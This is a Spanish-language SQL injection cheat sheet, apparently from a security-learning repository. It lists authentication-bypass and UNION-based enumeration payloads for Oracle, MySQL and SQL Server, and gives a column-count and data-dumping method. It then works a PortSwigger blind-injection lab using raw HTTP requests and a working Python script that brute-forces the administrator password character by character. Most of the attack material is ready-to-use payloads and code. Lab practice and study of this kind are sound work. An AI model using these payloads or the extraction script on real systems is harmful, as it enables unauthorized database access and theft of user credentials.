# SQL Injection
La inyección SQL es una vulnerabilidad de seguridad en aplicaciones web que permite a un atacante insertar código SQL malicioso en las consultas a una base de datos. Esto puede comprometer la integridad de los datos, revelar información confidencial o permitir acciones no autorizadas en el sistema afectado.

## Payloads de autenticación
```sql
abc' or 1=1-- -
abc' or 1=1#
abc' or '1'='1
```
## Recopilar información de la base de datos
### Version
#### Oracle
```sql
' union select BANNER,null from v$version-- -
' union select VERSION,null from V$INSTANCE-- -
```
#### MySQL
```sql
' union select @@version,null-- -
' union select VERSION(),null-- -
```
#### Microsoft SQL Server
```sql
' union select @@version,null-- -
' union select SERVERPROPERTY('productversion'),null-- -
```
### Bases de datos
#### Non-Oracle
```sql
' union select null,DISTINCT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
#### Oracle
```sql
' union select null,DISTINCT(USERNAME) FROM ALL_USERS-- -
```
### Tablas
#### Non-Oracle
```sql
' union select null,table_name FROM information_schema.tables-- -
```
#### Oracle
```sql
' union select null,table_name from all_tables-- -
```
### Columnas
#### Non-Oracle
```sql
' union select null,column_name FROM information_schema.columns where table_name='NOMBRE DE LA TABLA'-- -
```
#### Oracle
```sql
' union select null,column_name from all_tab_columns where table_name='NOMBRE DE LA TABLA'-- -
```
## Metodologia inyección basada en errores
### Determinar el numero de columnas
```sql
abc' order by 3-- -
# Respuesta 200 OK
abc' order by 20 -- -
# Respuesta 500 Internal Server Error
```
Hay por lo menos 3 columnas y menos de 20, cambiar los numeros hasta determinar el numero de columnas. Una vez encontrado el numero iniciaremos una query union select.

Supongamos que el numero de columnas reflejado es 4 primero lo confirmaremos de la siguiente forma
```sql
abc' union select null,null,null,null-- -
```
### Determinar los campos de los que se puede obtener informacion
Ahora determinaremos cual de los 4 campos es de tipo cadena para poder hacer querys sobre ese campo, introduciremos una cadena aleatoria dentro de cada uno para ver cual es reflejado.
```sql
abc' union select 'v0ydRT',null,null,null-- - # 500
abc' union select null,'v0ydRT',null,null-- - # 500
abc' union select null,null,'v0ydRT',null-- - # 200 -> Aqui se pueden injectar querys
abc' union select null,null,null,'v0ydRT'-- - # 500
```
Despues de eso se utiliza toda la informacion aterior para recopilar la informacion de la base de datos.


## Dumpear todos los valores de N numeros de columnas en una sola consulta (MySQL)
Suponiendo que despues de utilizar la metodologia anterior solo podemos injectar sentencias en un campo, podemos utilizar la funcion CONCAT() para extraer valores del numero de columnas que queramos
```sql
' union select null,CONCAT(COLUMNA 1,':',COLUMNA 2) from TABLA-- -
```
## Blind SQL injection conditional responses
En un ataque blind SQL injection el atacante explora la base de datos mediante consultas que, dependiendo de la respuesta del servidor (como respuestas verdaderas o falsas), le permiten inferir datos confidenciales o estructura de la base de datos sin acceder directamente a los resultados.

Ejemplo: El laboratorio https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

"This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called ```users```, with columns called ```username``` and ```password```. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user. "

En la siguiente peticion inyectando la sentencia ```' and 1=1-- -``` en la cookie recibimos el mensaje "Welcome back"
```http
GET / HTTP/2
Host: 0a6f0036037b631e8c38b2a0004e009e.web-security-academy.net
Cookie: TrackingId=iYMM1GrXuxAnojK7' and 1=1-- -; session=MVg9****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
```
Y en esta inyectando la sentencia ```' and 1=2-- -``` en la cookie no recibimos el mensaje "Welcome back"
```http
GET / HTTP/2
Host: 0a6f0036037b631e8c38b2a0004e009e.web-security-academy.net
Cookie: TrackingId=iYMM1GrXuxAnojK7' and 1=2-- -; session=MVg9****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
```
Por lo que podemos inferir que si una consulta es verdadera recibimos el mensaje "Welcome back" y si es falsa no lo recibimos, aunque podemos observar un patron de comportamiento por parte del servidor, aun asi no podemos ver ningun tipo de informacion en nuestras consultas por lo que temos que extraer la informacion letra por letra utilizando la funcion SUBSTRING().

Primero obtenemos la longitud de la ```password```
```sql
TrackingId=iYMM1GrXuxAnojK7' AND (SELECT 1 FROM users WHERE username='administrator' AND LENGTH(password)=20)=1-- -
```
Luego se creo el siguiente script en python y se pudo obtener el valor de esta password
```python
import sys
import requests
from urllib.parse import urlparse

if len(sys.argv) <  4:
    print ('Usage: python3 BlindConditional.py https://aaaaa.web-security-academy.net/ TrackingId=aaaa session=aaaa')
    sys.exit(1)
url = sys.argv[1]
parsed_url = urlparse(url)
host= parsed_url.netloc
dictionary = 'abcdefghijklmnopqrstuvwxyz1234567890'
password = ''
payload_prefix = sys.argv[2] + "' "

for i in range(0, 20):
    for j in dictionary:
        tmp = "AND (SELECT SUBSTRING(password,%d,1) from users where username='administrator')='%s" % (i+1, j)
        payload = payload_prefix + tmp
        headers = {
            'Host': host,
            'Cookie': payload + '; ' + sys.argv[3],
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Accept-Encoding': 'gzip, deflate',
            'Referer': sys.argv[1],
            'Upgrade-Insecure-Requests': '1',
            'Sec-Fetch-Dest': 'document',
            'Sec-Fetch-Mode': 'navigate',
            'Sec-Fetch-Site': 'same-origin',
            'Sec-Fetch-User': '?1',
            'Te': 'trailers'
        }
        response = requests.get(url, headers=headers)
        print(f'Trying with {headers}')
        if "Welcome back" in response.text:
            password += j
            print(f"Found character at position {i+1}: {password}")
            break  # Salir del bucle interno una vez encontrado el carácter

print(f"Password found: {password}")
```
